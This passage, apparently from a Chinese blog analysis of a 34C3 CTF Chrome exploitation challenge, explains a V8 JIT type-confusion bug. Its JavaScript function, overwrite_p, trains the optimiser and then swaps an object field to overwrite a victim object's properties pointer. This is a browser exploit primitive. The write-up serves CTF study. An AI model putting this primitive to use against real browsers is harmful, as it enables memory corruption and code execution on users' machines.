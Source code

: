![image-20200806120232778](..\image\2020-08-05-34c3ctf-chrome-pwn分析\5.png)

从图中可以看到，【2】处的o.b已经被覆盖成victim对象的地址，【3】处的value已经变成victim对象的properties。

之后再通过o.b = value; 就可以将victim的properties修改成value。

代码如下：

```javascript
function overwrite_p(target, value){
	var o = {a: 1};
	o.b = 13.27;
	function triggerReadTypeConfuse(o, callback) {
    		var tmp = o.a;
    		callback();
			o.b = value; //<----------
    		return o.b;
	}
	function evil() {
    		o.b = target;
	}
	for(let i=0; i<100000; i++) {
    		triggerReadTypeConfuse(o, ()=>1);
    		triggerReadTypeConfuse(o, ()=>2);
    		triggerReadTypeConfuse(o, ()=>3);
	}
	var r = triggerReadTypeConfuse(o, evil);
}

var data_buf = new ArrayBuffer(200);

```